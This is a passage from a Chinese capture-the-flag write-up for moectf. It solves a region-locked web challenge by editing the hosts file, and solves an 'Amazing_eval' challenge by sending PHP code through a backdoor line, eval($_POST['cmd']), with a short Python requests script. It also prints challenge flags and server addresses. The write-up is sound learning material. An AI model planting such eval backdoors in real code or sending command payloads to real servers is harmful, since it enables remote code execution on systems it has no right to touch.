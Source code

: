 还真是……

然后访问 https://149.28.197.64/ 忽略风险

```
<h1>Global Server Load Balance</h1>
<p>San Jose, US</p>
```

并没有flag

该 host 试一下…… ps. win10改host可能会有权限问题，用管理员权限打开 文本编辑器再修改即可！

刷新网页 https://region.challenge.moectf.cn/ 还是原来的内容？？可能需要 Ctrl + F5 或者如下命令

```powershell
> ipconfig /flushdns
```

排除 DNS 缓存的干扰……

```
<h1>Orz给大佬递flag(注意这是“英国人”的答案)</h1>
<p>moectf{vPn_n0t_tHe_answer_qaq}</p>
```

flag 拿到了，但我有个小疑问，这是怎么办到的？？还不花钱？

### Amazing_eval

> 听说有很多带黑阔喜欢使用这个函数留后门，你也来试试？
> 题目地址：http://39.108.11.206:10006

直接访问给出了源码，代码审计的题没错了！

```php
 <?php
error_reporting(0);
$flag="xxxxxxxxxxxxxxxxxxxx";
eval($_POST['cmd']);
?> 
```

我天？又是POST请求？Python走起！代码并没有对 cmd 进行过滤，输出 $flag 试试？

```python
import requests
res = requests.post("http://39.108.11.206:10006", 
                    data = {"cmd":"echo $flag;"})
print(res.text)
'''
重要的细节说三遍！
PHP语句后有分号
PHP语句后有;
PHP语句后有分号

不然不会得到 flag 
'''
```
